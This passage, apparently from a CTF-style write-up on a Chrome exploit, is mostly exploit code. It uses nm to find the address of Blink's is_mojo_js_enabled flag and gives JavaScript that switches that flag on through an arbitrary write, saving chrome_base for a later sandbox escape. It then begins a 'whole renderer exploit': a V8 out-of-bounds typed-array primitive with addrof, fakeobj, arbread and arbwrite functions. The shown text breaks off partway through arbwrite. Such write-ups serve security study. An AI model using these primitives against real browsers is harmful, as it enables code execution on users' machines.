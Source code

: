 ```bash
$ nm --demangle ./chrome | grep -i 'is_mojo_js_enabled'
000000000c560f0e b blink::RuntimeEnabledFeaturesBase::is_mojo_js_enabled_
```

Turn on the flag and reload the page to make Mojo allowed in Javascript. We can store the `chrome_base` in localStorage, which can be used for exploiting the sandbox later. 

```javascript
var mojo_enabled = chrome_base + 0xc560f0en;
localStorage.setItem("chrome_base", chrome_base);
arbwrite(mojo_enabled, 1n);
window.location.reload();
```

The whole renderer exploit:

```javascript=
function pwn_v8() {
    print("In v8");
    const uint32 = new Uint32Array([0x1000]);
    oob_access_array = [uint32];
    var f64 = new Float64Array([1.1]);
    uint32.set(uint32, 9);

    var buf = new ArrayBuffer(8);
    var f64_buf = new Float64Array(buf);
    var u64_buf = new Uint32Array(buf);

    function ftoi(val) {
        f64_buf[0] = val;
        return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
    }

    function itof(val) {
        u64_buf[0] = Number(val & 0xffffffffn);
        u64_buf[1] = Number(val >> 32n);
        return f64_buf[0];
    }

    function addrof(in_obj) {
        oob_access_array[0] = in_obj;
        return uint32[0x15];
    }
    function fakeobj(addr) {
        uint32[0x15] = addr;
        return oob_access_array[0];
    }

    var float_array_map = uint32[62];
    if (float_array_map == 0x3ff19999)
        float_array_map = uint32[63];

    var arr2 = [itof(BigInt(float_array_map)), itof(0n), itof(8n), itof(1n), itof(0x1234n), 0, 0].slice();
    var fake = fakeobj(addrof(arr2) - 0x38);
    var v8_heap = BigInt(uint32[12]) << 32n;

    function arbread(addr) {
        arr2[5] = itof(addr);
        return ftoi(fake[0]);
    }

    function arbwrite(addr, val) {
        arr2[5] = itof(addr);
        fake[0] = itof(val);
```